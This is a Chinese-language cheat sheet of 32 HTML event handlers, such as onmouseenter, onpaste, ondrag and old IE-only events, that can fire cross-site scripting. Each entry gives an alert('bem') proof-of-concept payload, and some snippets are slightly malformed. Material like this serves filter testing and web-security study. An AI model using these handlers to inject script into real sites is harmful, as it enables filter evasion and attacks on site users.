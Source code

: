 xss的触发事件

1、onmouseenter：当鼠标进入选区执行代码

```
<div style="background-color:red" onmouseenter="alert(bem)">123456</div>
```

2、onmouseleave：当鼠标离开选区执行代码

```
<DIV onmouseleave="alert('bem')" style="BACKGROUND-COLOR: red">123456</DIV>
```

3、onmousewheel：当鼠标在选区滚轮时执行代码

```
<DIV onmousewheel="alert('bem')" style="BACKGROUND-COLOR: red">123456</DIV>
```

4、onscroll：拖动滚动条执行代码

```
<div style="width:100px;height:100px;overflow:scroll" onscroll="alert(bem)">123456
  <br/>
  <br/>
  <br/>
  <br/>
  <br/>
</div>
```

5、onfocusin：当获得焦点时执行代码

```
<div contentEditable="true" style="background-color:red" onfocusin="alert('bem')" >asdf</div>
```

6、onfocusout：当失去焦点时执行代码

```
<div contentEditable="true" style="background-color:red" onfocusout="alert('bem')" >asdf</div>
```

7、onstart：当显示内容时执行代码

```
<marquee style="background-color:red" onstart="alert(bem)" >asdf</marquee>
```

8、onbeforecopy：选中内容后右键执行代码

```
<div style="background-color:red;" onbeforecopy="alert('bem')" >asdf</div>
```

9、onbeforecut：选中内容后右键执行代码

```
<div style="background-color:red;" onbeforecut="alert('bem')" >asdf</div>
```

10、onbeforeeditfocus：当获得焦点时执行代码

```
<div style="background-color:red;" contentEditable="true" onbeforeeditfocus="alert('bem')" >asdf</div>
```

11、onbeforepaste：选中内容后右键执行代码

```
<div style="background-color:red;" ="true" onbeforepaste="alert('bem')" >asdf</div>
```

12、oncontextmenu：鼠标右键执行代码

```
<div style="background-color:red;" oncontextmenu="alert('bem')" >asdf</div>
```

13、oncopy：鼠标右键执行复制时执行代码

```
<div style="background-color:red;" oncopy="alert('bem')" >asdf</div>
```

14、oncut：鼠标右键执行剪切时执行代码

```
<div contentEditable="true" style="background-color:red;" oncut="alert('bem')" >asdf</div>
```

15、ondrag：选择内容并拖动时执行代码

```
<div style="background-color:red;" ondrag="alert('bem')" >asdf</div>
```

16、ondragend：选择内容并拖动松开鼠标执行代码

```
<div style="background-color:red;" ondragend="alert('bem')" >asdf</div>
```

17、ondragenter：选择内容并拖动时执行代码

```
<div style="background-color:red;" ondragenter="alert('bem')" >asdf</div>
```

18、ondragleave：选择内容并拖出边框执行代码

```
<div contentEditable="true" style="background-color:red;" ondragleave="alert('bem')" >asdf</div>
```

19、ondragover：选择内容并拖动时执行代码

```
<div contentEditable="true" style="background-color:red;" ondragover="alert('bem')" >asdf</div>
```

20、ondragstart：选择内容并拖动时执行代码

```
<div contentEditable="true" style="background-color:red;" ondragstart="alert('bem')" >asdf</div>
```

21、ondrop：有内容被拖动进来时执行代码

```
<div contentEditable="true" style="" ondrop="alert(bem)" >asdf</div>
<div contentEditable="true" style="" ondrop="alert(bem)" >asdf</div>
```

22、onlosecapture：选择内容时执行代码

```
<div contentEditable="true" style="" onlosecapture="alert(bem)" >asdf</div>
```

23、onpaste：粘贴时执行代码

```
<div contentEditable="true" style="" onpaste="alert(bem)" >asdf</div>
```

24、onselectstart：选择内容时执行代码

```
<div contentEditable="true" style="" onselectstart="alert(bem)" >asdf</div>
```

25、onhelp：进入焦点按F1时执行代码

```
<div contentEditable="true" style="" onhelp="alert(bem)" >asdf</div>
```

26、onEnd：当时间线执行完毕时执行代码

```
<div STYLE="behavior:url(#default#time2)" onEnd="alert(bem)">asdf</div>
```

27、onBegin：当时间线开始执行代码

```
<div STYLE="behavior:url(#default#time2)" onBegin="alert(bem)">asdf</div>
```

28、onactivate：激活当前标签时执行代码

```
<div contentEditable="true" STYLE="" onactivate="alert(bem)">asdf</div>
```

29、onfilterchange：当滤镜改变时执行代码

```
<div contentEditable="true" STYLE="filter: Alpha(opacity=100, style=2);" onfilterchange="alert(bem)">asdf</div>
```

30、onbeforeactivate：当激活当前标签时执行代码

```
<div contentEditable="true" STYLE="" onbeforeactivate="alert(bem)">asdf</div>
```

31、onbeforedeactivate：当标签内值改变时执行代码

```
<div contentEditable="true" STYLE="" onbeforedeactivate="alert(bem)">asdf</div>
```

32、ondeactivate：当标签内值改变时执行代码

```
<div contentEditable="true" STYLE="" ondeactivate="alert(bem)">asdf</div>
```